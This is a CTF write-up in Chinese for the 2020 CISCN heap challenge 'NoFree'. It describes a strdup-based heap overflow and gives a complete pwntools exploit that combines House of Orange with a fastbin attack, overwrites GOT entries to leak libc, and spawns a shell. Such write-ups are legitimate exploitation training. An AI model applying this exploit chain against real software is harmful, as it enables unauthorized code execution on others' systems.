 # NoFree

## 来源
2020 ciscn


## 难度

5 / 10

## 保护

 ```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
 ```

## 简单描述

只有添加和编辑

## vul

```c
char *__fastcall sub_40095C(unsigned int size)
{
  memset(p_addr, 0, 0x100uLL);
  printf("content: ", 0LL);
  read_n(p_addr, size);
  return strdup(p_addr);
}
```



strdup函数相当于包含了strlen + malloc + strcpy 函数, 根据字符串长度来malloc, 然后strcpy到开辟的空间里,然后在输入一定大小后, 再输入内容,内容中若出现'\x00'字符截断, 则造成在edit模式堆溢出, 可以在同个index下开辟内存, 造成内存泄漏.

## 知识点

House of Orange, fastbin attack

## 思路

通过堆溢出漏洞修改top chunk 大小, 不断开辟内存, 直到开辟top chunk 快完毕, 使剩余的top chunk 为 fastbin size, 再开辟一块大的, 使剩余的部分为fastbin, 然后通过堆溢出修改fastbin fd为 p_addr + 0x100(堆指针数组), 在该数组中的大小要与fastbin 中的一致, 通过fastbin attack 打入 p_addr+ 0x100,  通过index 0控制 index 1 打入p_addr 设置字符串漏洞, 然后修改 memset 的got 表为printf的plt地址,再次开辟泄漏libc.再使用同样的方法修改atoi got表中的地址为system, 传入 '/bin/sh'即可 get shell



## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

context.log_level='debug'
#context(arch = 'i386', os = 'linux', log_level='debug')
#context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile = 'pwn'
libFile = '/lib/x86_64-linux-gnu/libc.so.6'

remoteIp = "0.0.0.0"
remotePort = 0

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x : io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(idx, size, data):
	sla('>>', str(1))
	sla(':', str(idx))
	sla(':', str(size))
	sa(':', data)

def md(idx, data):
	sla(':', str(2))
	sla(':', str(idx))
	sa(':', data)

#--------------------------Exploit--------------------------
def exploit():
	ad(0, 0x90, 'A')
	md(0, 'A' * 0x10 + p64(0) + p64(0xfe1))
	for i in range(24):
		ad(1, 0x90, 'A' *0x90)
	
	ad(0, 0x80, 'A' * 0x70)
	ad(0, 0x80, 'A' * 0x10) # idx 0
	ad(1, 0x40, 'A' * 0x40) # make it as 0x21 fastbin
	p_addr = 0x6020c0

	md(0, 'A' * 0x10 + p64(0x20) + p64(0x20) + p64(p_addr + 0x100))
	ad(0, 0x20, 'A') # Make the fastbin size as 0x20 for fastbin attaking
	ad(0, 0x20, p64(exe.got['memset']) + p64(0x10)) # modify memset got table as printf
	md(1, p64(exe.plt['printf'])) 

	md(0, p64(p_addr))
	md(1,'%17$p')

	# Add one to call print leak libc
	sla('>>', str(1))
	sla(':', str(2))
	sla(':', str(0x40))

	ru('0x')
	libc_base = int(ru('content'), 16) - (0x7ffff7a2d830 - 0x7ffff7a0d000)
	li('libc_base ' + hex(libc_base))
	sa(':', 'A' * 0x20)
	libc_sys = libc_base + lib.sym['system']

	# Modify atoi got tabel as system, then send /bin/sh to get shell
	md(0, p64(exe.got['atoi']))
	md(1, p64(libc_sys))
	sl('/bin/sh')

	

def finish():
	ia()
	c()

#--------------------------Main-----------------------------
if __name__ == '__main__':
	
	if LOCAL:
		exe = ELF(exeFile)
		if LIB:
			lib = ELF(libFile)
			io = exe.process(env = {"LD_PRELOAD" : libFile})
		else:
			io = exe.process()
	
	else:
		exe = ELF(exeFile)
		io = remote(remoteIp, remotePort)
		if LIB:
			lib = ELF(libFile)
	
	exploit()
	finish()

```

